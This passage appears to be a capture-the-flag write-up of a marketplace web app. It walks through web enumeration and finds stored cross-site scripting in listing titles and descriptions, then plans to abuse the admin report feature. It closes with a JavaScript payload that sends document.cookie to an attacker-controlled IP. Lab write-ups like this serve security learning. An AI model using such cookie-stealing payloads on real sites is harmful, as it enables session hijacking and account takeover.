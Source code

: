 It's a bit strange that we have two HTTP ports, and they both seem to be serving the same content. Presumably Nginx is acting as a reverse proxy for the Express app. Normally, there would be a firewall blocking the Node app, leaving only the Nginx available, so we'll treat the box like that's the case and ignore port 32768 for now.

## HTTP Enumeration

Accessing the web server shows us a very basic marketplace site of some kind.

![The Marketpalce home page](https://jacen-safe.s3.us-west-004.backblazeb2.com/HcZcZjxJUFIc.png)

Once we've created an account and signed in, we can send a message to the seller of the existing listings or add a new listing. Each listing also has an option to report it to the admin team.

As for adding a new listing, we can set a title, description, and upload an image, although the file upload functionality is disabled.

![The "add new listing" page](https://jacen-safe.s3.us-west-004.backblazeb2.com/Y9tjreVDIhKE.png)

The file upload is intriguing, so we'll send the page over to Burpsuite to take a closer look and potentially craft a custom request. Unfortunately, the `input` element for the file upload doesn't have an ID of any kind to be passed to the backend. If we had access to the backend source, we could figure out what the ID is supposed to be and pass it that way, but for now it seems to be a dead end.

![The "new listing" form's source](https://jacen-safe.s3.us-west-004.backblazeb2.com/hacQlfabXgLO.png)

Let's focus on what we *can* control: the title and description. We'll do a simple test with the `<b>` tag to see if the site sanitizes its inputs.

![A test payload using the "\<b\>" tag](https://jacen-safe.s3.us-west-004.backblazeb2.com/EIjAthdgzmxg.png)

And we're successful.

![Successful HTML styling on the listing page](https://jacen-safe.s3.us-west-004.backblazeb2.com/MYA1lTO3Iowp.png)

That's great, but it's possible that the developer simply allows basic tags like `<b>` or `<i>`. We'll do a proper XSS test with the `<script>` tag.

![A simple XSS payload using "console.log" in the "new listing" page](https://jacen-safe.s3.us-west-004.backblazeb2.com/cNbo3GT8HHqI.png)

Checking the developer console, we see that `<script>` also works. That means we have true cross-site scripting on the site.

![A successful XSS attack](https://jacen-safe.s3.us-west-004.backblazeb2.com/aRuoQakFFFTX.png)

Remember that report feature? If an admin accesses a page with a proper XSS payload, we could grab some useful information, such as their cookies, which probably include an authorization token.

The easiest way to do this is to have the site reach back to us, so we'll start by spinning up a simple HTTP server using `python3 -m http.server`. By default, this runs on port 8000. We can adjust this, but I'm fine with it as is. Next, we'll craft our payload.

```js
fetch("http://10.13.45.211:8000?data=" + btoa(document.cookie));
```
